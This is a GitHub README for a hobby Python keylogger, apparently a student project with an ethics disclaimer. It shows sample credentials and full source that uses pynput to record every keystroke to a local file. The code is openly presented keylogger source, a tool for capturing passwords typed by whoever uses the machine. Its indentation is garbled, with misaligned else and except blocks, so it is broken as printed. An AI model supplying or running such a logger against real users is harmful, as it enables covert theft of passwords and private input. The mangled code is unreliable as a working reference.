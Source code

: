 This is a CyberSecurity Keylogger used to record keystrokes

(Adhere by Ethical guidelines)
{Misuse will be punishable}

Through this project, I discovered how to create a simple keylogger in Python, learning about monitoring keyboard input and managing files. Handling exceptions taught me the necessity of ensuring program stability. The project shed light on ethical considerations in keylogger use, emphasizing responsible data handling. Keyloggers, while discreet, can aid in security testing, forensics, and parental monitoring. However, they must be used ethically to avoid misuse. Overall, this project provided a practical introduction to cybersecurity and software development, stressing ethical behavior online.
![Keylog ex 1](https://github.com/Kad3n13/Keylogger/assets/159424810/ceb53f7a-93e8-472d-9940-b857849246bb)

![keylogger ex 2](https://github.com/Kad3n13/Keylogger/assets/159424810/f9d0d623-b889-406d-ac56-945c0b885fcf)

Usernames and passwords used for (Example)
Usernames:

    ShadowHunter27
    CrimsonRose
    ElectricNinja

Passwords:

    P@ssw0rd123 (Strong)
    Swordfish87 (Medium)
    123456 (Weak)

![example 3](https://github.com/Kad3n13/Keylogger/assets/159424810/eeb98ddc-e564-4406-b911-f6a9a2f161fa)

Code!!!

    from pynput import keyboard

    def keypressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logkey:
                try:
                if hasattr(key, 'char'):  # Check if the key has a 'char' attribute
                char = key.char
                if char == ' ':  # Check if the character is a space
                    logkey.write('\n')  # Write a newline character if it's a space
                    else:
                    logkey.write(char)
                    else:
                    logkey.write(f'[{key}]')  # Write special keys as-is
                    except Exception as e:
                    print("Error getting char:", e)

                    if __name__ == '__main__':
                    listener = keyboard.Listener(on_press=keypressed)
                    listener.start()
                    input()
